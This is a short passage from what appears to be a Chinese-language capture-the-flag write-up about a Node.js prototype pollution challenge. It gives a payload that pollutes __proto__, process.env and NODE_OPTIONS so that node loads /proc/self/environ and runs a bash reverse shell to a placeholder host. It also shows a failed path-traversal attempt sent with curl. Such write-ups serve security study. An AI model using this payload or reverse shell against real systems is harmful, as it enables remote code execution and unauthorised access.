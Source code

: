 污染npm_config_global进入if判断，之后污染process.env，env环境变量保存在/proc/self/environ文件中，再利用NODE_OPTIONS这个配置参数，就可以起到一个node --require /proc/self/environ的效果

payload
```
data={'__proto__': {'npm_config_global': 1, 'env': {'zz':
"console.log(require('child_process').execSync(`/bin/bash -c 'bash -i >&
/dev/tcp/xx/xxx 0>&1'`).toString())//"}, 'NODE_OPTIONS': '--require
/proc/self/environ'}}
```

### 失败的解法

可以利用目录穿越直接包含flag文件，因为flag文件不符合nodejs的文件格式，所以肯定会报错，然后把内容打印出来；但是根据测试发现，只会打印require找不到文件的错误，其他错误不打印
```bash
% curl http://localhost:3333/api/tet/years -X POST -d 'list=./world' 
{"code":"MODULE_NOT_FOUND","requireStack":["/usr/src/app/test/index.js"]}
```

